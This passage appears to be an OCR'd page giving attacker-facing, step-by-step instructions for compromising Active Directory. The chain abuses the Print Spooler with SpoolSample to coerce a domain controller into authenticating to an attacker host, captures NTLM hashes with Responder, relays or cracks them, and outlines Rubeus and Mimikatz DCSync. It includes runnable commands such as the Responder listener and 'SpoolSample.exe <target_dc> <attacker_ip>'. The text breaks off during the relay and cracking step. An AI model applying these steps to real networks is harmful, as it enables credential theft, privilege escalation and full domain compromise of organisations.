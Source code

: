 By combining **SpoolSample** to capture NTLM hashes and **Rubeus** for post-exploitation Kerberos attacks, attackers can escalate privileges or perform lateral movement within a network.

To perform a **DCSync** attack using **Rubeus**, the **Print Spooler** abuse (like the SpoolSample attack), and **Mimikatz**, you can follow these steps. The DCSync attack is a technique where an attacker impersonates a Domain Controller (DC) and requests user credential data, including password hashes, from another DC. The goal is to extract sensitive information, such as **NTLM** and **Kerberos** hashes, from the **Active Directory (AD)** database without needing direct access to the Domain Controller itself.

### Workflow Overview

The attack consists of three major stages:

1. **Abusing the Print Spooler Service** to get a privileged user or Domain Controller to authenticate to the attacker’s machine and capture NTLM credentials.
2. **Using Rubeus** to request Kerberos **TGT** or **service tickets** based on captured credentials.
3. **Performing DCSync with Mimikatz** using the appropriate privileges or credentials obtained from Rubeus.

### Steps to Perform the Attack:

#### 1. **Abuse Print Spooler to Capture NTLM Hashes**

You will begin by abusing the **Print Spooler** service to force a Domain Controller or privileged user (such as a domain admin) to authenticate to an attacker-controlled SMB share, leaking their **NTLM hashes**.

- Set up an SMB listener on the attacker's machine to capture NTLM hashes using **Responder** or **Inveigh**.

   Example with **Responder**:

   ```bash
   python Responder.py -I eth0
   ```

- Use a tool like **SpoolSample** or **MS-RPRN** to force the target (in this case, a Domain Controller or high-privileged user) to authenticate to your attacker-controlled SMB server.

   Example with **SpoolSample**:

   ```bash
   SpoolSample.exe <target_dc> <attacker_ip>
   ```

   This forces the target DC or machine with Print Spooler service enabled to authenticate to your SMB listener.

#### 2. **Crack or Relay NTLM Hashes**

Once the NTLM hash is captured:

- **Relay the NTLM hash** using **ntlmrelayx** to authenticate as the privileged user (such as a domain admin) to other machines in the domain.
- Alternatively, **crack the NTLM hash** using **hashcat** to recover the plaintext password.
